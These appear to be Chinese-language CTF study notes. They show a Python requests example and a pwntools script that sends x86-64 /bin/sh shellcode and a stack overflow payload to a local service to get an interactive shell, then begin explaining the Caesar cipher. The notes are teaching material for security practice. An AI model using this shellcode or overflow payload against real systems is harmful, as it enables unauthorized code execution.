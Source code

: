 ##### Python相关

- 利用requests库来发送请求
```python
import requests
url = 'https://www.zju.edu.cn'
sess = requests.session()
r = sess.get(url)
headers = {
    'Cookies':'...'
}
data = {
    "...":"..."
}
r = sess.post(url,headers=headers,data=data)
```

- 利用pwntools中的**remote**来与远程服务器交互，发送一些**不可见字符**等
```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = remote('127.0.0.1', int(input()))

sc = b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'

pause()

p.sendafter("what's your name:",sc)

address = 0x20000+0x1000*int(input())

length = 0x48

payload = length*b"A"+p64(address)

p.sendafter("try to overflow me~",payload)

p.interactive()
```

## Crypto

### 古典密码

#### 凯撒密码

凯撒密码（Caesar）加密时会将明文中的 每个字母 都按照其在字母表中的顺序向后（或向前）移动固定数目（循环移动）作为密文。例如，当偏移量是左移 3 的时候（解密时的密钥就是 3）：

```
明文字母表：ABCDEFGHIJKLMNOPQRSTUVWXYZ
密文字母表：DEFGHIJKLMNOPQRSTUVWXYZABC
```
